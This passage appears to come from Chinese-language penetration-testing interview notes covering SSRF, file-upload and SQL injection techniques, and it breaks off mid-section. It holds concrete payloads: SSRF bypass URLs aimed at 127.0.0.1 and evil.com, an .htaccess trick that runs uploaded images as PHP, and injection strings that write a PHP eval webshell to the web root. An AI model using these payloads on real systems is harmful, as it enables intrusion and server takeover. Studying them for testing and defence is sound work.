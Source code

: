 应用/中间件/自带实例文件[weblogic ] RSS[QQ邮箱RSS处]等

#### 4.SSRF常见触发点参数名

share wap url link src source target u 3g display sourceURL imageURL domain 等

##### 5.SSRF防御方法

输入合法性效验 返回结果效验 网络下肢 后缀限制 正则验证协议名 hostname限制 黑名单限制 域名解析 硬端口编码

#### 6.SSRF绕过思路

@绕过： www.baidu.com@127.0.0.1:7001
采用十进制及十六进制 访问 127.0.0.1：
http://2130706433  http://0x7F000001
302临时文件跳转，301永久文件跳转：跳转gopher
file：// 看文件  dict:// 端口扫描 命令执行
sftp：// ftp:// tftp:// 文件传输
ldap：// 轻量目录访问 gopher:// 都有
xip绕过：
http://10.0.0.1.xip.io = 10.0.0.1
封闭式字母数字绕过
句号绕过：
127。0。0。1 = 127.0.0.1
解析url方式不一致绕过:
http://127.0.0.1:11211:80
http://google.com#@evil.com

### 文件上传

#### 1.有webshell前提下,网站根目录下有.htaccess文件,可以做什么

写一条解析规则,将上传的png文件后缀的当成php代码执行

#### 2.审查上传点的元素有什么意义

有些站点的上传文件限制是前端限制,这样只需要增加,上传类型就可以突破限制了

#### 3.上传目标网站没有防护,上传图片可以正常访问,上传脚本格式访问403,是什么原因

原因较多,可能是web服务器配置把上传目录写死了不执行相应脚本,可以尝试修改文件后缀名绕过

### sql注入

#### 1.sql注入点。使用工具写入一句话，需要满足哪些条件

root权限和网站绝对路径还可以使用union查询

SQL写入一句话木马1. 判断长度?id=1’ order by 7--+

创建目录?id=1’ union select 1,2,3,4,5,6,7 into outfile ‘/etc/www/test.txt’ --+

写一句话木马进文件?id=1’ union select 1,2,3,4,5,6,’<?PHP  @eval($_post[“test”])? >’  into outfile ‘/etc/www/test.php’ --+

#### 2.突破字符转义的方法
